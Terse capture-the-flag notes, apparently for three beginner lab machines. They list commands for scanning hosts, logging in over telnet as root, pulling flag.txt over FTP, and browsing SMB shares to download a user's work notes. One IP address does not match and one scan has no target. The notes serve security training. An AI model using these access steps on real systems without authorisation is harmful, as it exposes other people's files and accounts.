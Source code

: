 Maullido
ping 10.129.175.101
nmap -sC 10.129.175.101
telnet -l root 10.129.175.101
ls
cat flag.txt

Adular
nmap -sC 10.129.173.229
ftp -?
ftp 10.129.73.229
get flag.txt
exit o bye
cat flag.txt

Baile
nmap -sV
sudo apt-get install smbclient
smbclient -L 10.129.246.26
smbclient \\\\10.129.246.26\\ADMIN$
smbclient \\\\10.129.246.26\\C$
smbclient \\\\10.129.246.26\\WorkShares
ls
cd Amy.j
ls
get worknotes.txt
cd ..
cd James.P
ls
